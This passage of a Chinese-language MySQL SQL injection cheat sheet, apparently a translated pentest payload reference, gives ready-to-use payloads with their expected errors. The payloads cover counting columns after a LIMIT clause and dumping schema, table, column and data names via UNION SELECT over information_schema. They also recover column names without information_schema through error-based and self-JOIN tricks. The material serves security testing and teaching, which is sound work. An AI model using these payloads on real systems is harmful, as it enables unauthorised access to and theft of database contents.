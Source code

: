 #### LIMIT INTO方法

当启用了错误报告时，此方法有效。它可以确定在LIMIT子句之后发生注入点时的列数。 

| 负载                      | 错误           |
| ---------------------------- | --------------- |
| `1' LIMIT 1,1 INTO @--+`     | `使用的SELECT语句具有不同数量的列` |
| `1' LIMIT 1,1 INTO @,@--+ `  | `使用的SELECT语句具有不同数量的列` |
| `1' LIMIT 1,1 INTO @,@,@--+` | `无错误意味着查询使用3列` |

由于结果未显示任何错误，这意味着查询使用3列：`-1' UNION SELECT 1,2,3--+`。


### 使用information_schema提取数据库

此查询检索服务器上所有架构（数据库）的名称。

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata
```

此查询检索指定架构（架构名称由占位符表示）内所有表的名称。

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema=占位符
```

此查询检索指定表中所有列的名称。

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name=...
```

此查询旨在从特定表中检索数据。

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,data,0x7C) FROM ...
```


### 不使用information_schema提取列名

适用于`MySQL >= 4.1`的方法。

| 负载 | 输出 |
| --- | --- |
| `(1)and(SELECT * from db.users)=(1)` | 操作数应包含**4**列 |
| `1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)` | 列'**id**'不能为null |

适用于`MySQL 5`的方法。

| 负载 | 输出 |
| --- | --- |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b)a` | 重复的列名'**id**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a` | 重复的列名'**name**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a` | 数据 |
